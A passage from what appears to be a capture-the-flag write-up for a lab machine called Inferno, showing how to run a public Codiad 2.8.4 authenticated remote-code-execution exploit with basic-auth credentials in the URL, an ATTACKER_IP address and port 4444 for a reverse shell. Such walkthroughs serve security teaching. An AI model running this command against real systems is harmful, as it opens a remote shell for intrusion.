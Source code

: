 Let's use the first exploit: `Codiad 2.8.4 - Remote Code Execution (Authenticated)`

To run this exploit, we use the following command:

```
python3 49705.py http://admin:dante1@10.10.93.17/inferno/ admin dante1 ATTACKER_IP 4444 linux
```

Notice our URL provided is `http://admin:dante1@10.10.93.17`. This is to pass the HTTP basic authentication when trying to access /inferno.

The exploit will prompt us to run 2 separate commands on 2 other terminals. Our setup should look like this:

![screenshot9](../assets/images/inferno/screenshot9.png)

